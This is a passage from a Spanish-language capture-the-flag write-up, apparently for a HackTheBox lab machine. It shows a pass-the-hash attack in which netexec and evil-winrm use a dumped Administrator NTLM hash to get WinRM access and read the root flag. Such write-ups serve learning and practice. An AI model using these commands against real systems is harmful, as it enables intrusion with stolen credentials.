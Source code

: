 ### PassTheHash

Comprobaremos con **netexec** de conectarnos al WinRM mediante el usuario "Administrator" y el hash que hemos dumpeado con Secretsdump.py.

Comprobamos que nos aparece como **Pwn3d** lo que indica que podemos conectarnos haciendo **PassTheHash** con el usuario Administrator.

```bash
netexec winrm 10.10.10.161 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```

<figure><img src="../../../.gitbook/assets/891_vmware_iASr06zy9M.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos haciendo **PassTheHash** con el usuario "Administrator" y su respectivo hash y comprobamos que podemos acceder y revisar la flag de **root.txt**.

```bash
evil-winrm -i 10.10.10.161 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```

<figure><img src="../../../.gitbook/assets/890_vmware_yIoV9aPPg5.png" alt=""><figcaption></figcaption></figure>
